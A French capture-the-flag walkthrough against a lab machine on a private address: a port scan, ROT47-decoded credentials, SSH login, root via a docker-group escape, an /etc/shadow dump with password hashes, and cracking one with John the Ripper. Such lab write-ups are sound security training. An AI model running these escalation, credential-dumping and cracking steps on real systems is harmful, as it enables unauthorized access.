 1.Énumération

**<span style="color: #dddddd;">👁️</span> Massap**

```
┌─[parrot@parrot]─[~/Documents]
└──╼ $sudo sh massap.sh

   *                                
 (  `                               
 )\))(      )             )         
((_)()\  ( /(  (   (   ( /(  `  )   
(_()((_) )(_)) )\  )\  )(_)) /(/(   
|  \/  |((_)_ ((_)((_)((_)_ ((_)_\  
| |\/| |/ _` |(_-<(_-</ _` || '_ \) 
|_|  |_|\__,_|/__//__/\__,_|| .__/  
                            |_|     

by M0rPH3U53
      
[i] Scan IP: 192.168.56.74
[i] Rate: 1000
 
[+] Scan Masscan 192.168.56.74...100%
[+] Scan Nmap 192.168.56.74...100%

[+] 22/tcp open
[+] 80/tcp open
 
==========================================================
|                         Rapports                       |
==========================================================
| Nmap:/home/parrot/Massap/192.168.56.74-tcp.html        |
==========================================================

```

&nbsp;

Allons voir ce qu’on trouve sur la page web

![Capture du 2025-02-04 21-23-24.png](../../_resources/Capture%20du%202025-02-04%2021-23-24.png)

```
┌─[parrot@parrot]─[~]
└──╼ $curl http://192.168.56.74/

<!----------ROT47---------->  
</body>
</html>
```

&nbsp;

Allons déchiffrer `l'utilisateur` & `mot de passe` trouver précédemment

![decrypt_rot47.png](../../_resources/decrypt_rot47.png)

```
D92:=6?5C2:shailendra
4J36CDA=@:E`:cybersploit1
```

&nbsp;

<span style="color: #dddddd;">🖥️</span> **NetExec**

Test en `SSH` des identifiants trouver

```
┌─[parrot@parrot]─[~/Documents]
└──╼ $nxc ssh 192.168.56.74 -u shailendra -p cybersploit1
SSH         192.168.56.74   22     192.168.56.74    [*] SSH-2.0-OpenSSH_8.0
SSH         192.168.56.74   22     192.168.56.74    [+] shailendra:cybersploit1  Linux - Shell access!

```

&nbsp;

**<span style="color: #dddddd;">⚙️</span> GTFObin**

L’utilisateur est dans le groupe `docker`

```
[shailendra@localhost ~]$ id
uid=1001(shailendra) gid=1001(shailendra) groups=1001(shailendra),991(docker) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

&nbsp;

Allons voir sur `GTFObins` si docker peut nous être utiles

**![Capture du 2025-02-08 12-28-35.png](../../_resources/Capture%20du%202025-02-08%2012-28-35.png)**

&nbsp;

Devenir root avec docker avec utilisateur `shailendra` grâce au `GTFObin`

```
[shailendra@localhost ~]$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
Unable to find image 'alpine:latest' locally
latest: Pulling from library/alpine
1f3e46996e29: Pull complete 
Digest: sha256:56fa17d2a7e7f168a043a2712e63aed1f8543aeafdcee47c58dcffe38ed51099
Status: Downloaded newer image for alpine:latest
sh-4.4# bash -i
[root@98e99a67f8c0 /]# 
```

&nbsp;

Dump des `hash` utilisateur

```
[root@98e99a67f8c0 centos]# cat /etc/shadow
root:$6$3d795XDPRsC3pMSF$pQYqtqY2ffdd/RR5zNnEcPUO5JMmsDXU8LjsFFGoAB84UmNosxjgYC.OESYKfpNhaaU1H2dyQY.4g46Vp70As.:18458:0:99999:7:::
bin:*:18358:0:99999:7:::
daemon:*:18358:0:99999:7:::
adm:*:18358:0:99999:7:::
lp:*:18358:0:99999:7:::
sync:*:18358:0:99999:7:::
shutdown:*:18358:0:99999:7:::
halt:*:18358:0:99999:7:::
mail:*:18358:0:99999:7:::
operator:*:18358:0:99999:7:::
games:*:18358:0:99999:7:::
ftp:*:18358:0:99999:7:::
nobody:*:18358:0:99999:7:::
dbus:!!:18456::::::
systemd-coredump:!!:18456::::::
systemd-resolve:!!:18456::::::
tss:!!:18456::::::
polkitd:!!:18456::::::
unbound:!!:18456::::::
sssd:!!:18456::::::
sshd:!!:18456::::::
rngd:!!:18456::::::
centos:$6$bUk/Dj.L.IjunflB$CF2HPXKM6GE8QGaMXpWa7KcTeiPFqb4bHkrkXxvrhXaPtP740vCqMj7WT4QW82bOM3Lzr2YPuc2zr9dvSMrM61::0:99999:7:::
shailendra:$6$X27PMCgNpVKj2WTf$7Ug3MPhwOCmAAHSKuulv88y/THusEchwZDxSVS8lq2llavEKHKE1QmjleJVo35jflcaeJcdCy7paXZ3PcePyN1:18457:0:99999:7:::
apache:!!:18457::::::
```

&nbsp;

**<span style="color: #dddddd;">🧨</span> JohnTheRipper**

Crack du hash de utilisateur `centos`

```
┌─[parrot@parrot]─[~/Documents]
└──╼ $john hash 
Warning: detected hash type "sha512crypt", but the string is also recognized as "HMAC-SHA256"
Use the "--format=HMAC-SHA256" option to force loading these as that type instead
Warning: detected hash type "sha512crypt", but the string is also recognized as "HMAC-SHA512"
Use the "--format=HMAC-SHA512" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
1234             (centos)     
1g 0:00:00:01 DONE 2/3 (2025-02-04 22:06) 0.5617g/s 1780p/s 1780c/s 1780C/s 123456..john
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
┌─[parrot@parrot]─[~/Documents]
└──╼ $john --show hash 
centos:1234::0:99999:7:::

1 password hash cracked, 0 left
```

&nbsp;

Identifiant trouver

| Users | Passwords |
| --- | --- |
| centos | 1234 |
| shailendra | cybersploit1 |